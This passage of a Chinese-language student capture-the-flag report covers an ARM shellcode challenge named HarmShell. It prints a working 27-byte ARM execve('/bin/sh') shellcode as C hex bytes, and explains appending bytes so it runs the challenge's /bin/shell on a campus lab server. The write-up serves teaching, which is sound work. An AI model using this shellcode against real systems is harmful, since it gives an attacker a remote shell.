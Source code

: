 ## 01 - HarmShell

**分值**: 35分
**题目说明**:
本题需要编写shellcode并向服务器端发送，服务器会自动解析执行，如果shellcode正确则可以getshell，否则程序崩溃。

题目环境位于: `ip: 10.15.201.97, port: 10000` （校内网）

**题目要点**:

- 编写shellcode并对汇编语句进行分析 （15分）

- 成功getshell，获得最后的 flag （20分）

> 注: getshell后请同以前作业一样运行 `/etc/flag.exe` 程序

**hint**:
注意shell的文件名。

### 漏洞分析及利用

- checksec可以看见是arm平台的32位可执行文件，小端存储，保护全开。

  ![image-20210707193406172](3180105507_唐顺政_final报告.assets/image-20210707193406172.png)

- 寻找arm平台的一段27字节的shellcode如下，对应的是`execve("/bin/sh", [0], [0 vars])`：

  ```c
  char SC[] = "\x01\x30\x8f\xe2"
              "\x13\xff\x2f\xe1"
              "\x78\x46\x08\x30"
              "\x49\x1a\x92\x1a"
              "\x0b\x27\x01\xdf"
              "\x2f\x62\x69\x6e"
              "\x2f\x73\x68";
  ```

- 注意在`init.cfg`中可以看到shell的path是`/bin/shell`而网站上的shellcode则是运行`/bin/sh`，因此需要在shellcode后面加三个字节即`ell`的机器码`\x65\x6c\x6c`。

